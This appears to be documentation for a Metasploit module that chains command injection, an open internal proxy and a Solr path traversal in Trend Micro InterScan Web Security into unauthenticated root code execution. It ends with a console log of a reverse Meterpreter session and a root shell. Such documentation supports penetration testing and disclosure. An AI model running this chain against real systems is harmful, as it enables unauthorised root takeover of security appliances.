 ## Vulnerable Application

This module exploits multiple vulnerabilities together in order to achive a remote code execution. Unauthenticated users can execute a terminal command under the context of the root user.

The specific flaw exists within the LogSettingHandler class of administrator interface software. When parsing the mount_device parameter, the process does not properly validate a user-supplied string before using it to execute a system call. An attacker can leverage this vulnerability to execute code in the context of root. But authentication is required to exploit this vulnerability.

Another specific flaw exist within the proxy service, which listens on port 8080 by default. Unauthenticated users can exploit this vulnerability in order to communicate with internal services in the product.

Last but not least flaw exists within the Apache Solr application, which is installed within the product. When parsing the file parameter, the process does not properly validate a user-supplied path prior to using it in file operations. An attacker can leverage this vulnerability to disclose information in the context of IWSS user.

Due to combination of these vulnerabilities, unauthenticated users can execute a terminal command under the context of the root user.

**Vulnerable Application Installation Steps**

Trend Micro Web Security is distrubed as an ISO image by Trend Micro.

Following steps are valid on the CentOS 6 x64 bit operating system.

1. Open following URL [http://downloadcenter.trendmicro.com/](http://downloadcenter.trendmicro.com/)
2. Find "InterScan Web Security Virtual Appliance)" and click.
3. Go to **Service Pack** section.
4. At the time of writing this documentation, you must see **IWSVA-6.5-SP2-1548-x86_64.iso** next to Download button.
5. Click to the download button and complete installation of ISO.

[https://files.trendmicro.com/products/iwsva/6.5/IWSVA-6.5-SP2-1548-x86_64.iso](https://files.trendmicro.com/products/iwsva/6.5/IWSVA-6.5-SP2-1548-x86_64.iso)

**System settings used for installation:**
- Virtualbox or VMware can be used.
- 8 GB of memory at least.
- 60 GB of disk size at least.

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] Run `use exploit/linux/http/trendmicro_websecurity_exec`
- [ ] Set `RHOST`
- [ ] Set `LHOST`
- [ ] Run `check`
- [ ] **Verify** that you are seeing `The target is vulnerable.`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `Latest session id is successfully extracted : 29A589E94A0BC0954F7F9B1FE7EC8858` in console.

## Scenerio

This module has been tested against Trend Micro Web Security 6.5-SP2_Build_Linux_1852.

```
msf5 > use exploit/linux/http/trendmicro_websecurity_exec
msf5 exploit(linux/http/trendmicro_websecurity_exec) > set RHOSTS 192.168.74.31
RHOSTS => 192.168.74.31
msf5 exploit(linux/http/trendmicro_websecurity_exec) > set LHOST 172.27.199.6
LHOST => 172.27.199.6
msf5 exploit(linux/http/trendmicro_websecurity_exec) > check
[+] 192.168.74.31:8443 - The target is vulnerable.
msf5 exploit(linux/http/trendmicro_websecurity_exec) > exploit

[*] Started reverse TCP handler on 172.27.199.6:4444
[*] Exploiting command injection vulnerability
[+] Latest session id is successfully extracted : 29A589E94A0BC0954F7F9B1FE7EC8858
[*] Sending stage (53755 bytes) to 172.27.192.1
[*] Meterpreter session 1 opened (172.27.199.6:4444 -> 172.27.192.1:55842) at 2020-06-14 20:24:53 +0300

meterpreter > sysinfo
Computer        : trendmicro
OS              : Linux 2.6.32-504.OpenVA.3.5.1375.el6.x86_64 #1 SMP Wed Dec 28 16:16:16 CST 2016
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > shell
Process 6306 created.
Channel 1 created.
sh: no job control in this shell
sh-4.1# id
uid=0(root) gid=0(root) groups=0(root),499(iscan)
sh-4.1#
```